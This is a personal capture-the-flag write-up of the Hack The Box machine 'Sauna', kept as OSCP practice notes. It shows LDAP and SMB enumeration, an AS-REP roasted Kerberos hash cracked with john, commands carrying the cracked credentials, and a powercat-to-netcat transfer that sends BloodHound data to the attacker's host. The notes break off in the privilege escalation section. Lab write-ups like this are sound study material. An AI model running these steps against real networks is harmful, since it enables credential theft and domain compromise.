

# Sauna 
Name: Sauna
Date:  
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Domain Name from Enum4linux


Smbconnection attempts
```bash
smbclient -L 10.129.102.151 -U guest -p ""
Password for [WORKGROUP\guest]:
session setup failed: NT_STATUS_ACCOUNT_DISABLED
```

Discovery nmap script has an ldap enumeration script:
```
dnsHostName: SAUNA.EGOTISTICAL-BANK.LOCAL
defaultNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL
```

Potential usernames


First failed attempt


```
namingContexts:DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts:CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts:CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts:DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts:DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
```

Tried ldapsearch and configuring dns to no avail - found issues with my ldapsearch and my cheatsheets as when I went to the Ippsec Video to learn some Vim Macro to making variation in the user.txt. As I had ran out of options. As this was The first time I have used macros in vim it felt amazing. Ippsec does rock and I did not spoil anything else for myself. 

## Exploit
Reran impacket:


```
$krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:0d526e4163679689d1f3c08cd3255f71$28b2f1c3af5686c1252160027864620ab54a478a3a05aa662d28de284ca5efe3d49e05323ea2a27befb986b1418b0799990bfcdcdf6331020e82ab1b71c226900b851a85ca491f15b4047f2292133b7693f337db62528242c79b925a77662025afa8b9e04ea38ca7ad5057e2c1a713b0f7a616491d3e29b88ba2d67029701c359ad13432a9ba1b3df902f6f4bc4b31ded2d37675bd4dfeaf41cb169e92a1a92e4ebab68b24331c3ef01cfbee28b33c245c6456ba5349d20541aba4518ac6c25a66349c8c463a1aa972eec56b6c80b91947cca0c6a6d46e24246f892ba10da8717544cd698528d99ef47acbb79bf742fe9e80c72eb0118f95d1899e1d493a41a1
```

```bash
john hash --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL)
```


Reran `enum4linux` with fsmith credentials.
Used Ldapdomaindump to dump the domain details for bloodhound
```bash
ldapdomaindump -u 'EGOTISTICAL-BANK\fsmith'Sauna-Writeup -p 'Thestrokes23' 10.129.95.180 -o ldapdomaindump-output
# ldd2bloodhound -d ldapdomaindump-output/*.json
# The above is old but did it by mistake...
# Figured out why ldapsearch was not workind changed my ldap cheatsheet :)
ldapsearch -LLL -H ldap://10.129.95.180 -x -D 'EGOTISTICALBANK\fsmith' -w 'Thestrokes23' -b '' -s base '(objectClass=*)' | tee -a ldapsearch-objects
ldapsearch -H ldap://10.129.95.180 -x -D 'EGOTISTICALBANK\fsmith' -w 'Thestrokes23' -b "CN=Domain Admins,CN=Users,DC=EGOTISTICAL,DC=BANK" | tee -a ldapsearch-dom-admins
```

## Foothold
Discovered [go-windapsearch](https://github.com/ropnop/go-windapsearch) to automate `ldapsearch`, but went straight for `evil-winrm`


```batch
C:\Users\FSmith\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

C:\Users\FSmith\Documents> setspn -T EGOTISTICAL-BANK.LOCAL -Q */*
Checking domain DC=EGOTISTICAL-BANK,DC=LOCAL
CN=SAUNA,OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/SAUNA.EGOTISTICAL-BANK.LOCAL
        ldap/SAUNA.EGOTISTICAL-BANK.LOCAL/ForestDnsZones.EGOTISTICAL-BANK.LOCAL
        ldap/SAUNA.EGOTISTICAL-BANK.LOCAL/DomainDnsZones.EGOTISTICAL-BANK.LOCAL
        DNS/SAUNA.EGOTISTICAL-BANK.LOCAL
        GC/SAUNA.EGOTISTICAL-BANK.LOCAL/EGOTISTICAL-BANK.LOCAL
        RestrictedKrbHost/SAUNA.EGOTISTICAL-BANK.LOCAL
        RestrictedKrbHost/SAUNA
        RPC/b3e0be40-25c6-44ec-b2b9-9ff85c44b2ec._msdcs.EGOTISTICAL-BANK.LOCAL
        HOST/SAUNA/EGOTISTICALBANK
        HOST/SAUNA.EGOTISTICAL-BANK.LOCAL/EGOTISTICALBANK
        HOST/SAUNA
        HOST/SAUNA.EGOTISTICAL-BANK.LOCAL
        HOST/SAUNA.EGOTISTICAL-BANK.LOCAL/EGOTISTICAL-BANK.LOCAL
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/b3e0be40-25c6-44ec-b2b9-9ff85c44b2ec/EGOTISTICAL-BANK.LOCAL
        ldap/SAUNA/EGOTISTICALBANK
        ldap/b3e0be40-25c6-44ec-b2b9-9ff85c44b2ec._msdcs.EGOTISTICAL-BANK.LOCAL
        ldap/SAUNA.EGOTISTICAL-BANK.LOCAL/EGOTISTICALBANK
        ldap/SAUNA
        ldap/SAUNA.EGOTISTICAL-BANK.LOCAL
        ldap/SAUNA.EGOTISTICAL-BANK.LOCAL/EGOTISTICAL-BANK.LOCAL
CN=krbtgt,CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
        kadmin/changepw
CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
        SAUNA/HSmith.EGOTISTICALBANK.LOCAL:60111

Existing SPN found!

```

```batch

usncreated              : 40976
displayname             : Block downloads to powershell
```

I then use `evil-winrm upload` for SharpHound.zip and powercat 
```powershell
powershell -c "Expand-Archive SharpHound.zip SharpHound
SharpHound.exe -c all
# Attacking machine:
nc -lvnp 54321 > Bloodhound.zip
# Windows
powercat -c 10.10.10.10 -p 54321 -i C:\Users\FSmith\Documents\SharpHound\BloodHound.zip
```

## PrivEsc

Returning to this after many months, I left with credential to get on the box and I just once again run into a compilation issue while I am busy download everything for Visual Studios...


I do not want to waste time running into compilation issues for Windows ever again. So 